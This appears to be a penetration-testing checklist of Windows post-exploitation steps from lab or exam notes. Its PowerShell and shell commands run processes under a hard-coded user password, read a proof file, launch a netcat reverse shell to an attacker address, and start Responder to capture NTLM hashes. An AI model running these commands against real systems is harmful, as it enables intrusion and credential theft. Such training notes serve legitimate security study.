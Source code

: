 - [ ] Show permissions on directory on the Target Machine
```powershell
icacls "C:\Program Files\Enterprise Apps"
```

## Running Process as another user

- [ ] Use `runas` to execute cmd as user (E.g., sussyadmin) on the Target Machine
```powershell
runas /user:sussyadmin cmd
```
- Does not work in a reverse shell
- Works better in GUI shell

- [ ] Run cmd as a different user with a secure string password on the Target Machine
```
$username = 'roberto'
$password = 'CaR4l0s7heM@n'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force

$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

Start-Process cmd.exe -Credential $credential
```
- Output looks very broken as two shells are running concurrently
	- But it works

- [ ] Run command as a different user with a secure string password on the Target Machine
```
$username = 'roberto'
$password = 'CaR4l0s7heM@n'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force

$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

Start-Process cmd.exe -Credential $credential -ArgumentList "/c whoami"
Start-Process cmd.exe -Credential $credential -ArgumentList "/c hostname"
Start-Process cmd.exe -Credential $credential -ArgumentList "/c ipconfig"
Start-Process cmd.exe -Credential $credential -ArgumentList "/c type C:\Users\Administrator\Desktop\proof.txt"
```
- Specify the parameter `/c` or `/k` to carry out the command
- You may use this to execute a `nc` reverse shell
	- `Start-Process cmd.exe -Credential $credential -ArgumentList "/c nc.exe 192.168.xx.xxx 4445 -e cmd.exe"`

## Rogue authentication server

- [ ] Start `responder` to answer to File Server Service request for SMB on our Kali Machine to capture user's Net-NTLMv2 hash
```
sudo responder -I tun0 -v
```

